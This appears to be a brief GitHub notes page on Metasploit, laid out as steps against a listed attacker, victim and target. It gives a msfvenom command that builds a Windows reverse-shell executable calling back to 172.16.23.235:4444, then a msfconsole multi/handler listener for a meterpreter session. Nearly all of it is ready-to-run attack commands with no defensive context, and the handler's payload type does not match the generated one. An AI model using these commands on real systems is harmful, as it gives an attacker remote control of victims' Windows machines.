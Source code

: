 # Metasploit
```
Attacker 192.168.0.99
Victim   192.168.0.5
         192.168.1.5
Target   192.168.1.63
```

## Step 1: Create Windows Payload
```
msfvenom -p windows/x64/shell_reverse_tcp -f exe LHOST=172.16.23.235 LPORT=4444 >payload.exe
```

## Step 2: Listener 
```
msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp 
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 172.16.23.235
LHOST => 172.16.23.235
msf exploit(handler) > exploit
```

## Step 3: Check meterpreter session
```
/* 
 * - check msf for new meterpreter session
 */
